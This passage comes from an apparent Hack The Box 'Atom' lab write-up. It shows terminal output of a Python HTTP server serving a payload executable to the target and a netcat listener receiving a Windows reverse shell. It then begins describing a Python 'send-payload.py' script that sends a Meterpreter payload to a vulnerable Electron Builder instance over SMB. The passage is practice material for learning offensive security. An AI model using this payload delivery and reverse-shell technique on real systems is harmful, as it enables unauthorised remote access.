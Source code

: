 ```bash

┌──(mac㉿kali)-[~/Documents/HTB/atom/smb]
└─$ sudo python3 -m http.server 80
[sudo] password for mac: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.237 - - [02/Jun/2021 20:36:07] code 404, message File not found
10.10.10.237 - - [02/Jun/2021 20:36:07] "GET /h'eed.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [02/Jun/2021 20:36:07] "GET /h%27eed.exe HTTP/1.1" 200 -

...[netcat listener]...

┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ sudo nc -lnvp 443
[sudo] password for mac: 
listening on [any] 443 ...
connect to [10.10.14.39] from (UNKNOWN) [10.10.10.237] 52783
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>


```

# Automation

I did some Python scripting to make adjusting the payload easier. This was maybe more effort than it was worth, but a good learning exercise nonetheless.

## argparse

I used the `argparse` library to process command line arguments:

```python
def main():
    parser = argparse.ArgumentParser(prog="send-payload.py", description="Sends a payload to a vulnerable Electron Builder instance over SMB. If no port is provided, listens on port 9001 by default. No default option for IP address is specified.")

    #positional arguments
    parser.add_argument("ip", help="Target IP address")
    parser.add_argument("payload", help="Meterpreter payload to use")

    #named parameters/flags
    parser.add_argument("--lip", help="Local IP to listen on. Specify either this or --lint")
    parser.add_argument("--lint", help="Local interface to listen on. Specify either this or --lip")
    parser.add_argument("--lport", help="Local port to listen on. 9001 by default")

    args = parser.parse_args()

    for arg in vars(args):
        argval = getattr(args, arg)
        if argval is not None:
            print(arg + ": " + argval)

    #if args.lip is not None and args.lint is not None -  no need to check this, just take LIP first
    if args.lip is not None:
        ip = args.lip
        print("IP Address: " + ip)
    elif args.lint is not None:
        ip = get_ip(interface)
```